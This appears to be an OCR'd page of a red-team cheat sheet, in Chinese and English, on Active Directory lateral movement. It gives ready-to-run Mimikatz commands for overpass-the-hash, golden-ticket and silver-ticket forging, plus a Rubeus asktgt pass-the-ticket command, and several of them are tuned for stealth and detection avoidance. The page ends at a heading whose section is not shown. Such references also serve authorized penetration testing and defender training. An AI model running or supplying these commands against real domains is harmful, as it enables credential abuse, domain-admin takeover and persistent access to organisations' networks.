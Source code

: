 # 使用 Mimikatz 进行横向运动

## Overpass-the-hash (more risky than Rubeus, writes to LSASS memory)
```
sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe
```

## Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands
```
sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe
```

## Golden ticket (domain admin, w/ some ticket properties to avoid detection)
```
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```


## Silver ticket for a specific SPN with a compromised service / machine account
```
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

# 使用Rubeus.exe横向运动
我们可以使用 Rubeus 执行一种称为“Overpass-the-Hash”的技术。在这种技术中，我们不是直接传递散列（另一种称为传递散列的技术），而是使用帐户的 NTLM 散列来请求有效的 Kerberost 票证 (TGT)。然后，我们可以使用此票证作为目标用户向域进行身份验证。

## Request a TGT as the target user and pass it into the current session
## NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
```
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt
```
## More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)
